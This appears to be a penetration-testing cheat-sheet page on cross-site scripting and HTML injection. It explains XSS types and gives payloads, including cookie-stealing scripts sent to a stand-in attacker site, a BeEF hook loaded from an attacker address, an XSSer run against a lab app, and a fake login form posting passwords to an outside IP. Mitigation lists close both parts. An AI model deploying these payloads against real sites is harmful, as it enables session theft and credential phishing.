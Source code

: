 # HTML | XSS

## XSS

{% hint style="info" %}
Cross-Site Scripting (XSS) attacks are a type of **injection**, in which **malicious scripts** are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send **malicious code**, generally in the form of a browser side script, to a different end user.
{% endhint %}

### Types

#### **Stored XSS**&#x20;

{% hint style="info" %}
The injected script is permanently stored on the target servers, such as in a database, in a **message** forum, visitor log, **comment** **field**, etc. The victim then retrieves the malicious script from the server when it requests the stored information.
{% endhint %}

#### **Reflected XSS**&#x20;

{% hint style="info" %}
Reflected attacks are those where the injected script is **reflected** off the web server, such as in an **error message**, **search result**, or any other response that includes some or all of the input sent to the server as part of the request.&#x20;
{% endhint %}

Let’s say a web page has a search box, which displays the search text alongside the search results as follows :

`Your search results for “searchtext”:`

The web page also uses the **HTTP GET request method** to embed the user’s input data to the query string of the URL as follows:&#x20;

`https://example.com/action.php?query=searchtext`

If the search box is susceptible to a non-persistent XSS attack, a cybercriminal can send a malicious link to an unsuspecting user and exploit the vulnerability.&#x20;

This is how the script-injected link could look like:

`https://example.com/action.php?query=<script>document.location=’https://xssattacksite.com/log.php?c=’ + encodeURIComponent(document.cookie)</script>`

#### **DOM XSS**&#x20;

{% hint style="info" %}
DOM Based XSS (or as it is called in some texts, “type-0 XSS”) is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.
{% endhint %}

Let’s take the following example of a web page that utilizes JavaScript to manipulate a DOM element:

`let searchText = document.getElementById(‘searchText’).value;`\
`let resultsData = document.getElementById(‘resultsData’);`\
`resultsData.innerHTML = ‘Your search results for: ‘ + searchText;`

As you can see on the code snippet above, the value from a user input field is grabbed and appended to an element within the web page’s HTML. If an attacker can control this value, they can craft a devious value that forces their own code to be executed.

Here is an example **** :

`Your search results for: “<script>document.location=’https://xssattacksite.com/log.php?c=’ + document.cookie</script>”`

### Payloads

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}
XSS cheatsheet
{% endembed %}

{% embed url="https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt" %}
XSS payloads
{% endembed %}

**Examples**

```html
<!-- put this into a form field or search bar-->
<img src=q onError=prompt('!XSS!'); />
<script>alert("!XSS!")</script>
<script>print()</script>

<!-- encoded -->
%uff1cscript%uff1eprompt("!XSS!");%uff1c/script%uff1e&
%253Cscript%253Eprint()%253C%252Fscript%253E
%253Cimg%2520src%253Dq%2520onError%253Dalert(%2522XSS%2522)%253B%2520%252F%253E
```

### N.B.

#### ~~alert()~~ print()

Use **print** instead of alert

{% embed url="https://portswigger.net/research/alert-is-dead-long-live-print" %}

### Beef

#### Install & Config

```bash
git clone https://github.com/beefproject/beef.git
./install
nano config.yaml # change username and password
./beef
```

#### Control

```html
<!-- insert this into xss vulnerable field : -->
<script src="http://ip_hacker:3000/hook.js"></script>

<!-- use waf bypass -->
```

### XSSER

{% hint style="info" %}
XSSer is an automatic **framework**, which **detects XSS vulnerabilities** over in the web-applications and even provides up several options to exploit them.
{% endhint %}

```bash
# install
git clone https://github.com/epsylon/xsser.git
```

![](<../../.gitbook/assets/image (102).png>)

**Capture the browser request with Burp, use request value (cookies value...) :**

![](<../../.gitbook/assets/image (119).png>)

```bash
# Run XSSER
cd xsser/
python3 xsser --url "http://192.168.0.9/bWAPP/xss_get.php?firstname=XSS&lastname=test1&form=submit" --cookie "PHPSESSID=q6t1k21lah0ois25m0b4egps85; security_level=1" --auto
```

![Output result](<../../.gitbook/assets/image (100).png>)

### Mitigations

* Developers should implement a **whitelist** of allowable inputs, and if not possible then there should be some input validations and the data entered by the user must be filtered as much as possible.
* Output **encoding** is the most reliable solution to combat XSS i.e. it takes up the script code and thus converts it into the plain text.
* A **WAF** _(Web Application Firewall)_ should be implemented as it somewhere protects the application from XSS attacks.
* Use of **HTTPOnly Flags** on the **Cookies**.
* The developers can use **Content Security Policy (CSP)** to reduce the severity of any XSS vulnerabilities.

## HTML Injection

### Check

* **Form fields**
  * Exploit with _BurpSuite_ using URL Encode

### Payloads

```html
<!-- URL ENCODE THESE & put them in a form field -->
<b>test</b>
<a href="https://google.com">test</a>
<img src= "https://www.ignitetechnologies.in/img/logo-blue-white.png">

<!-- add a form field to website -->
<div style="position: absolute; left: 0px; top: 0px; width: 1900px; height: 1300px; z-index:1000; background-color:white; padding:1em;">Please login with valid 
credentials:<br><form name="login" action="http://192.168.0.7:4444/login.htm">
<table><tr><td>Username:</td><td><input type="text" name="username"/></td></tr><tr><td>Password:</td>
<td><input type="text" name="password"/></td></tr><tr>
<td colspan=2 align=center><input type="submit" value="Login"/></td></tr>
</table></form>
```

### Mitigations

* The developer should set up his HTML script which filters the meta-characters from user inputs.
* The developer should implement functions to validate the user inputs such that they do not contain any specific tag that can lead to **virtual defacement.**
